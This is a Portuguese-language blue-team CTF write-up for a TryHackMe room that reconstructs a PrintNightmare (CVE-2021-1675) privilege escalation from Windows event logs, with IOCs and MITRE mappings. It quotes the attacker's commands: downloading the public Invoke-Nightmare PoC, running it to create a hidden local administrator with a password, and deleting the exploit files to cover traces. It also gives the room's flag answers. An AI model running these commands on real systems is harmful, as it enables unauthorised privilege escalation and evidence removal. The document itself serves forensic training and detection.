







# 🔍 PrintNightmare, again! — CTF Writeup
### TryHackMe Room | Blue Team · Análise de Logs de Eventos Windows (Sysmon · PowerShell · Security) — CVE-2021-1675 / PrintNightmare

---

| **Analista**          | Mauricio Robert                                                                              |
|-----------------------|----------------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                            |
| **Data do Relatório** | 01/10/2026                                                                                   |
| **Data do Incidente** | 27/08/2021 (09:52:07 – 09:53:38 UTC)                                                         |
| **Classificação**     | CONFIDENCIAL                                                                                 |
| **Ferramentas**       | FullEventLogView (NirSoft) · Notepad · Sysmon · PowerShell Script Block Logging              |
| **Host Analisado**    | `THM-PRINTN200` (WORKGROUP) — VM `PrintNightmareC2 v2.3`                                     |

---

## 🔍 Resumo Executivo

O desafio **PrintNightmare, again!** (TryHackMe) apresenta os logs de eventos do host **`THM-PRINTN200`**, onde o usuário **`bmurphy`** explorou a vulnerabilidade **PrintNightmare (CVE-2021-1675)** no serviço **Print Spooler** para escalar privilégios. Pelo PowerShell, o usuário baixou do GitHub o repositório `calebstewart/CVE-2021-1675` como **`levelup.zip`**, extraiu o módulo **`CVE-2021-1675.ps1`** e executou o **`Invoke-Nightmare`**, que gerou a DLL maliciosa **`nightmare.dll`** em `Temp`, copiou-a para a pasta de drivers do spooler e fez o **`spoolsv.exe` (PID 2600)** carregá-la com privilégio **SYSTEM**. O resultado foi a criação do usuário local **`backup`**, com senha definida pelo atacante, e a inclusão dele no grupo **Administrators**. Em seguida, o usuário apagou a pasta do exploit e o ZIP para **cobrir os rastros**. A investigação respondeu a **nove questões técnicas** correlacionando eventos **Sysmon** (IDs 11 e 13), **PowerShell** (4104), **Security** (4720, 4722, 4724, 4732, 4738), **Security-Mitigations** (173) e o histórico do console (`ConsoleHost_history.txt`).

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                              | Finalidade                                                                                                         |
|-----------------------------------------|--------------------------------------------------------------------------------------------------------------------|
| **FullEventLogView (NirSoft)**          | Consolidação e busca (*Find*) em todos os logs de eventos (≈ 33.299 a 34.979 itens) por palavras-chave (`.zip`, `levelup.zip`, `nightmare.dll`) |
| **Sysmon/Operational**                  | Evento 11 (*File Created*) para arquivos criados e Evento 13 (*Registry Value Set*) para o registro do driver     |
| **PowerShell/Operational**              | Evento 4104 (*Script Block Logging*) — evidência da execução do módulo/exploit                                     |
| **Security (Windows)**                  | Eventos 4720, 4722, 4738, 4724, 4732 — criação, ativação, alteração e escalonamento da conta `backup`              |
| **Microsoft-Windows-Security-Mitigations** | Evento 173 — processo que seria bloqueado de carregar binário não assinado pela Microsoft                       |
| **Notepad (ConsoleHost_history.txt)**   | Leitura do histórico do PSReadLine com a sequência completa de comandos do atacante                                |

---

## 📋 Perguntas e Respostas

### Q1 — O usuário baixou um arquivo ZIP. Com que nome ele foi salvo?

> **Resposta: `levelup.zip`**

**Solução:** No **FullEventLogView**, uma busca por `.zip` (*Find → Down*) levou ao primeiro evento Sysmon **ID 11 (File Created)** associado a um ZIP, com a regra `Downloads`:

```
File created:
RuleName: Downloads
UtcTime: 2021-08-27 09:52:07.311
ProcessGuid: {a19e3d6a-b595-6128-0901-000000000d00}
ProcessId: 2124
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
TargetFilename: C:\Users\bmurphy\Downloads\levelup.zip
CreationUtcTime: 2021-08-27 09:52:07.311
```

O arquivo foi criado pelo **PowerShell (PID 2124)** na pasta *Downloads* do usuário **`bmurphy`**. O histórico do console confirma o download:

```powershell
wget https://github.com/calebstewart/CVE-2021-1675/archive/refs/heads/main.zip -UseBasicParsing -OutFile levelup.zip
```


---

### Q2 — Qual é o caminho completo do exploit executado pelo usuário?

> **Resposta: `C:\Users\bmurphy\Downloads\CVE-2021-1675-main\CVE-2021-1675.ps1`**

**Solução:** Buscando por `levelup.zip` e seguindo os eventos Sysmon 11 seguintes (regra `Downloads`, todos pelo `powershell.exe` PID 2124), aparece a extração do ZIP, com o script do exploit:

```
File created:
RuleName: Downloads
UtcTime: 2021-08-27 09:52:27.520
ProcessId: 2124
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
TargetFilename: C:\Users\bmurphy\Downloads\CVE-2021-1675-main\CVE-2021-1675.ps1
```

Os comandos correspondentes no histórico são `Expand-Archive .\levelup.zip -DestinationPath .`, `cd .\CVE-2021-1675-main\` e `Import-Module .\CVE-2021-1675.ps1`. Esse script é o módulo PowerShell público (`calebstewart/CVE-2021-1675`) que expõe a função **`Invoke-Nightmare`**.



---

### Q3 — Em qual local temporário a DLL maliciosa foi salva?

> **Resposta: `C:\Users\bmurphy\AppData\Local\Temp\3\nightmare.dll`**

**Solução:** Buscando por `nightmare.dll`, o primeiro evento Sysmon **ID 11** (regra `DLL`) mostra o PowerShell gravando a DLL na pasta temporária do usuário:

```
File created:
RuleName: DLL
UtcTime: 2021-08-27 09:53:38.066
ProcessId: 2124
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
TargetFilename: C:\Users\bmurphy\AppData\Local\Temp\3\nightmare.dll
CreationUtcTime: 2021-08-27 09:53:38.066
```

A DLL é gerada pelo próprio `Invoke-Nightmare` em um diretório temporário antes de ser registrada como "driver de impressora".



---

### Q4 — Qual foi o caminho completo de onde a DLL foi carregada?

> **Resposta: `C:\Windows\System32\spool\drivers\x64\3\New\nightmare.dll`**

**Solução:** No evento Sysmon **ID 11** seguinte (**500 ms depois**), quem grava a DLL já não é o PowerShell, e sim o **`spoolsv.exe`** — o serviço Print Spooler rodando como SYSTEM:

```
File created:
RuleName: DLL
UtcTime: 2021-08-27 09:53:38.566
ProcessId: 2600
Image: C:\Windows\System32\spoolsv.exe
TargetFilename: C:\Windows\System32\spool\drivers\x64\3\New\nightmare.dll
CreationUtcTime: 2021-08-27 09:53:38.566
```

Essa é a assinatura do PrintNightmare: um usuário comum força o spooler (via `AddPrinterDriverEx`) a copiar uma DLL arbitrária para `spool\drivers\x64\3\New\` e carregá-la com privilégio **SYSTEM**.



---

### Q5 — Qual é o caminho de registro primário associado a este ataque?

> **Resposta: `HKLM\System\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\THMPrinter\DriverVersion`**

**Solução:** O evento Sysmon **ID 13 (Registry Value Set)**, regra `InvDB-DriverVer`, gerado em seguida pelo `spoolsv.exe`, mostra o registro do driver falso:

```
Registry value set:
RuleName: InvDB-DriverVer
EventType: SetValue
UtcTime: 2021-08-27 09:53:38.581
ProcessId: 2600
Image: C:\Windows\System32\spoolsv.exe
TargetObject: HKLM\System\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\THMPrinter\DriverVersion
Details: 0.0.0.0
```

O nome **`THMPrinter`** corresponde ao parâmetro `-DriverName "THMPrinter"` usado pelo atacante no `Invoke-Nightmare`. A chave `...\Print\Environments\Windows x64\Drivers\Version-3\` é onde o spooler registra drivers de impressora — o principal IOC de registro do PrintNightmare.



---

### Q6 — Qual foi o PID do processo que seria bloqueado de carregar um binário não assinado pela Microsoft?

> **Resposta: `2600`**

**Solução:** O evento **ID 173** do canal `Microsoft-Windows-Security-Mitigations/KernelMode` (*record 173*) descreve:

```
Process '\Device\HarddiskVolume2\Windows\System32\spoolsv.exe' (PID 2600) would have been blocked
from loading the non-Microsoft-signed binary '\Windows\System32\spool\drivers\x64\3\nightmare.dll'.
```

O texto "*would have been blocked*" indica que a mitigação de **assinatura de binários** estava em **modo de auditoria**, apenas registrando — por isso a DLL foi carregada normalmente. Logo em seguida o canal **PrintService/Admin** registra o **Evento 808 (Error)**: *"The print spooler failed to load a plug-in module"* — confirmando que o spooler tentou carregar a DLL maliciosa como plug-in.


---

### Q7 — Qual é o nome de usuário da conta de administrador local recém-criada?

> **Resposta: `backup`**

**Solução:** Na mesma janela de tempo (`2:53:3x` local), o log **Security** registra a sequência completa de gerenciamento de conta:

| Record | Event ID | Descrição                                               |
|--------|----------|---------------------------------------------------------|
| 3308   | 4728     | *A member was added to a security-enabled global group* |
| 3309   | **4720** | **A user account was created**                          |
| 3310   | 4722     | A user account was enabled                              |
| 3311   | 4738     | A user account was changed                              |
| 3312   | 4724     | An attempt was made to reset an account's password      |
| 3313   | **4732** | **A member was added to a security-enabled local group**|

Detalhe do **Evento 4720**:

```
A user account was created.
Subject:
    Security ID:    S-1-5-18
    Account Name:   THM-PRINTN200$
    Account Domain: WORKGROUP
    Logon ID:       0x3E7
New Account:
    Security ID:    S-1-5-21-2907060277-222403653-3488313780-1001
    Account Name:   backup
    Account Domain: THM-PRINTN200
Attributes:
    Old UAC Value: 0x0   New UAC Value: 0x15
    Account Disabled / 'Password Not Required' - Enabled / 'Normal Account' - Enabled
```

O criador (*Subject*) é a conta de máquina **`THM-PRINTN200$` (SYSTEM, Logon ID `0x3E7`)**, e não o usuário `bmurphy` — prova de que a criação ocorreu **dentro do `spoolsv.exe`** após a escalada de privilégios. O evento **4732** confirma o ingresso do SID `...-1001` no grupo **Administrators** (`S-1-5-32-544`, *Builtin*).



---

### Q8 — Qual é a senha deste usuário?

> **Resposta: `ucGGDMyFHkqMRWwHtQ`**

**Solução:** Abrindo o histórico do PowerShell do usuário (`ConsoleHost_history.txt`, 442 bytes, em `%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\`) no Notepad, a linha do `Invoke-Nightmare` revela o usuário, a senha e o nome do driver falso:

```powershell
Invoke-Nightmare -NewUser "backup" -NewPassword "ucGGDMyFHkqMRWwHtQ" -DriverName "THMPrinter"
```

A senha é passada em **texto claro** na linha de comando, e por isso foi gravada no histórico do PSReadLine — um erro de OPSEC do atacante, e um artefato valioso para o analista.



---

### Q9 — Quais dois comandos o usuário executou para cobrir seus rastros? (sem espaço após a vírgula)

> **Resposta: `rmdir .\CVE-2021-1675-main\,del .\levelup.zip`**

**Solução:** O trecho final do `ConsoleHost_history.txt` mostra o usuário voltando ao diretório pai e removendo as evidências:

```powershell
cd ..
rmdir .\CVE-2021-1675-main\     # remove a pasta do exploit (CVE-2021-1675.ps1)
dir
del .\levelup.zip               # remove o ZIP baixado
dir
exit
```

Os dois comandos de limpeza são **`rmdir .\CVE-2021-1675-main\`** e **`del .\levelup.zip`**; os `dir` são apenas para conferir a remoção. Como o histórico do PSReadLine e os logs do Sysmon/PowerShell não foram apagados, toda a cadeia continuou rastreável.



---

## ⛓ Kill Chain — Fluxo do Ataque PrintNightmare

```
[FASE 1 — DOWNLOAD DO EXPLOIT]  (09:52:07 UTC)
    PowerShell (PID 2124) do usuário bmurphy:
    wget https://github.com/calebstewart/CVE-2021-1675/archive/refs/heads/main.zip -OutFile levelup.zip
    → C:\Users\bmurphy\Downloads\levelup.zip
    ↓
[FASE 2 — EXTRAÇÃO E CARGA DO MÓDULO]  (09:52:27 UTC)
    Expand-Archive → C:\Users\bmurphy\Downloads\CVE-2021-1675-main\CVE-2021-1675.ps1
    Import-Module .\CVE-2021-1675.ps1   (PowerShell Event 4104 — Script Block Logging)
    ↓
[FASE 3 — EXECUÇÃO DO EXPLOIT]  (09:53:38 UTC)
    Invoke-Nightmare -NewUser "backup" -NewPassword "ucGGDMyFHkqMRWwHtQ" -DriverName "THMPrinter"
    DLL maliciosa gerada: C:\Users\bmurphy\AppData\Local\Temp\3\nightmare.dll
    ↓
[FASE 4 — ABUSO DO PRINT SPOOLER]  (09:53:38.566 UTC)
    spoolsv.exe (PID 2600, SYSTEM) grava:
    C:\Windows\System32\spool\drivers\x64\3\New\nightmare.dll
    Registro: HKLM\...\Print\Environments\Windows x64\Drivers\Version-3\THMPrinter\DriverVersion
    Security-Mitigations 173: "would have been blocked" — binário não assinado pela Microsoft
    PrintService/Admin 808: spooler falhou ao carregar o plug-in
    ↓
[FASE 5 — ESCALONAMENTO / PERSISTÊNCIA]
    Security 4720  → usuário "backup" criado por THM-PRINTN200$ (SYSTEM)
    Security 4722  → conta habilitada
    Security 4738  → conta alterada
    Security 4724  → senha definida
    Security 4732  → "backup" adicionado ao grupo Administrators
    net localgroup administrators → atacante valida a conta
    ↓
[FASE 6 — LIMPEZA DE RASTROS]
    rmdir .\CVE-2021-1675-main\
    del .\levelup.zip
    exit
```

---

## 🗺 Mapeamento Investigativo

| Pergunta | Fonte de Evidência | Artefato |
|----------|--------------------|----------|
| Nome do ZIP | Sysmon/Operational → Evento 11 (regra `Downloads`) | `levelup.zip` |
| Caminho do exploit | Sysmon/Operational → Evento 11 (extração do ZIP) | `C:\Users\bmurphy\Downloads\CVE-2021-1675-main\CVE-2021-1675.ps1` |
| DLL em Temp | Sysmon/Operational → Evento 11 (`powershell.exe`, regra `DLL`) | `C:\Users\bmurphy\AppData\Local\Temp\3\nightmare.dll` |
| Local de carga da DLL | Sysmon/Operational → Evento 11 (`spoolsv.exe`, regra `DLL`) | `C:\Windows\System32\spool\drivers\x64\3\New\nightmare.dll` |
| Chave de registro | Sysmon/Operational → Evento 13 (regra `InvDB-DriverVer`) | `HKLM\System\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\THMPrinter\DriverVersion` |
| PID do processo bloqueável | Security-Mitigations → Evento 173 | `2600` (`spoolsv.exe`) |
| Novo administrador local | Security → Evento 4720 (+ 4732) | `backup` |
| Senha do usuário | `ConsoleHost_history.txt` (PSReadLine) | `ucGGDMyFHkqMRWwHtQ` |
| Comandos de limpeza | `ConsoleHost_history.txt` (PSReadLine) | `rmdir .\CVE-2021-1675-main\,del .\levelup.zip` |

---

## 🚨 Artefatos e Indicadores Identificados (IOCs)

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Host | `THM-PRINTN200` (WORKGROUP) | Máquina comprometida |
| Usuário (origem) | `bmurphy` | Usuário que baixou e executou o exploit |
| URL | `https://github.com/calebstewart/CVE-2021-1675/archive/refs/heads/main.zip` | Origem do exploit (PoC `Invoke-Nightmare`) |
| Arquivo | `C:\Users\bmurphy\Downloads\levelup.zip` | ZIP baixado e depois apagado |
| Arquivo | `C:\Users\bmurphy\Downloads\CVE-2021-1675-main\CVE-2021-1675.ps1` | Módulo do exploit — pasta depois removida |
| Arquivo (DLL) | `C:\Users\bmurphy\AppData\Local\Temp\3\nightmare.dll` | DLL maliciosa gerada pelo `Invoke-Nightmare` |
| Arquivo (DLL) | `C:\Windows\System32\spool\drivers\x64\3\New\nightmare.dll` | DLL carregada pelo `spoolsv.exe` como SYSTEM |
| Chave de registro | `HKLM\System\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\THMPrinter\DriverVersion` | Driver falso `THMPrinter` (Details: `0.0.0.0`) |
| Nome do driver | `THMPrinter` | Parâmetro `-DriverName` do `Invoke-Nightmare` |
| Processo | `C:\Windows\System32\spoolsv.exe` — PID `2600` | Print Spooler explorado |
| Processo | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` — PID `2124` | Executou o download e o exploit |
| Conta criada | `backup` — SID `S-1-5-21-2907060277-222403653-3488313780-1001` | Administrador local criado pelo atacante |
| Credencial | `backup : ucGGDMyFHkqMRWwHtQ` | Senha em texto claro no histórico do PSReadLine |
| Grupo | `Administrators` (`S-1-5-32-544`) | Grupo ao qual `backup` foi adicionado |
| Event ID (Security) | `4720`, `4722`, `4738`, `4724`, `4732` | Sequência de criação/ativação/elevação da conta `backup` |
| Event ID (Sysmon) | `11` e `13` | Criação de arquivos (ZIP/PS1/DLL) e valor de registro |
| Event ID (Mitigations) | `173` | `spoolsv.exe` carregando `nightmare.dll` não assinada |
| Event ID (PrintService) | `808` | Spooler falhou ao carregar o plug-in |
| CVE | `CVE-2021-1675` / `CVE-2021-34527` | PrintNightmare (Windows Print Spooler) |
| Técnica (MITRE ATT&CK) | `T1068` | Exploitation for Privilege Escalation |
| Técnica (MITRE ATT&CK) | `T1136.001` | Create Account: Local Account (`backup`) |
| Técnica (MITRE ATT&CK) | `T1098` | Account Manipulation (inclusão em Administrators) |
| Técnica (MITRE ATT&CK) | `T1059.001` | Command and Scripting Interpreter: PowerShell |
| Técnica (MITRE ATT&CK) | `T1105` | Ingress Tool Transfer (`wget` do GitHub) |
| Técnica (MITRE ATT&CK) | `T1070.004` | Indicator Removal: File Deletion (`rmdir` / `del`) |

---

## ✅ Resumo das Flags

| # | Pergunta | Flag / Resposta |
|---|----------|------------------|
| Q1 | Nome com o qual o ZIP foi salvo | `levelup.zip` |
| Q2 | Caminho completo do exploit executado | `C:\Users\bmurphy\Downloads\CVE-2021-1675-main\CVE-2021-1675.ps1` |
| Q3 | Local temporário da DLL maliciosa | `C:\Users\bmurphy\AppData\Local\Temp\3\nightmare.dll` |
| Q4 | Local completo de onde a DLL foi carregada | `C:\Windows\System32\spool\drivers\x64\3\New\nightmare.dll` |
| Q5 | Caminho de registro primário do ataque | `HKLM\System\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\THMPrinter\DriverVersion` |
| Q6 | PID do processo que seria bloqueado | `2600` |
| Q7 | Usuário administrador local criado | `backup` |
| Q8 | Senha do usuário | `ucGGDMyFHkqMRWwHtQ` |
| Q9 | Comandos para cobrir os rastros | `rmdir .\CVE-2021-1675-main\,del .\levelup.zip` |

---

## 📚 Referências

- [TryHackMe — PrintNightmare, again!](https://tryhackme.com/room/printnightmareagain)
- [NVD — CVE-2021-1675](https://nvd.nist.gov/vuln/detail/CVE-2021-1675)
- [Microsoft MSRC — CVE-2021-34527 (PrintNightmare)](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [calebstewart/CVE-2021-1675 — PoC `Invoke-Nightmare` (GitHub)](https://github.com/calebstewart/CVE-2021-1675)
- [NirSoft — FullEventLogView](https://www.nirsoft.net/utils/full_event_log_view.html)
- [Sysmon — Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [MITRE ATT&CK — T1068 Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)
- [MITRE ATT&CK — T1136.001 Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
- [MITRE ATT&CK — T1070.004 Indicator Removal: File Deletion](https://attack.mitre.org/techniques/T1070/004/)

---